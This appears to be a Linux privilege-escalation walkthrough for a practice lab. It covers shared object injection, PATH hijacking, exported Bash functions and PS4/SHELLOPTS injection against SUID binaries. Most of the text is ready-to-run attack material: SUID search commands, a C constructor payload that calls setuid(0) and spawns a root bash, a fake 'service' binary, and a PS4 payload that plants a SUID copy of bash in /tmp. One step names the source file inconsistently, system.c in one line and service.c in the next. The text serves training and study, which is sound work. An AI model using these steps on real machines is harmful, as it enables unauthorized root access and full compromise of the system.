








# Shared Object Injection

By using a program called strace, we can track these system calls and determine whether any shared objects were not found. If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

## How Does the OS Find a Shared Library?

#### When an application that uses shared libraries runs, the OS searches for the library in the following order

1. Any directories specified by rpath-link options (directories specified by rpath-link options are only effective at link time)
2. Any directories specified by –rpath options (directories specified by rpath options are included in the executable and used at runtime)
3. LD\_RUN\_PATH
4. LD\_LIBRARY\_PATH
5. Directories in the DT\_RUNPATH or DT\_RPATH. (DT\_RPATH entries are ignored if DT\_RUNPATH entries exist
6. /lib and /usr/lib
7. Directories within /etc/ld.so.conf

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-so file should execute with root user permissions.



To identify a binary that uses shared libraries the ldd tool can be used

#### `ldd /usr/local/bin/suid-so`

Run strace on the SUID file:

#### `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`



The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

Create the /home/user/.config directory.

Create the file libcalc.c with the following contents:

```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```

Compile libcalc.c into /home/user/.config/libcalc.so:

#### `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`

Run the SUID executable to get a root shell:

#### `/usr/local/bin/suid-so`

## PATH Environment Variable

The PATH environment variable contains a list of directories where the shell should try to find programs. If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found. Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

#### If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run strings on the executable file to find strings of characters. We can also use strace to see how the program is executing.

Another program called ltrace may also be of use.

Running strings against a file:

#### `strings /path/to/file`

Running strace against a command:

#### `strace -v -f -e execve [command] 2>&1 | grep exec`

Running ltrace against a command:

#### `ltrace [command]`

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env`



The file could be trying to run the service program without a full path. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service`



Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`



This reveals that the system function is being used to execute the service program

Create a file system.c with the following contents:

#### `int main() {` `setuid(0);` `system("/bin/bash -p");` `}`

Compile service.c into a file called service:

#### `gcc -o service service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

#### `PATH=.:$PATH /usr/local/bin/suid-env`



## Abusing Shell Features

#### In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name. These functions can be exported so that sub processes have access to them, and the functions can take precedence over the actual executable being called.

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env2`



The file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`



Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`

This reveals that the system function is being used to execute the /usr/sbin/service program

Verify the version of Bash is lower than 4.2-048:

#### `bash --version`

Create a Bash function with the name “/usr/sbin/service” and export the function:

#### `function /usr/sbin/service { /bin/bash -p; }` `export -f /usr/sbin/service`

Execute the SUID file for a root shell:

#### `/usr/local/bin/suid-env2`

## Abusing Shell Features (#2)

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace. By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set. When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown. If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner. In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env2 file should execute with root user permissions.

Run strings on the SUID file

#### `strings /usr/local/bin/suid-env2`

the file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

This reveals that the system function is being used to execute the service program. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

#### `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash file with the -p command line option to get a root shell:

#### `/tmp/rootbash -p`
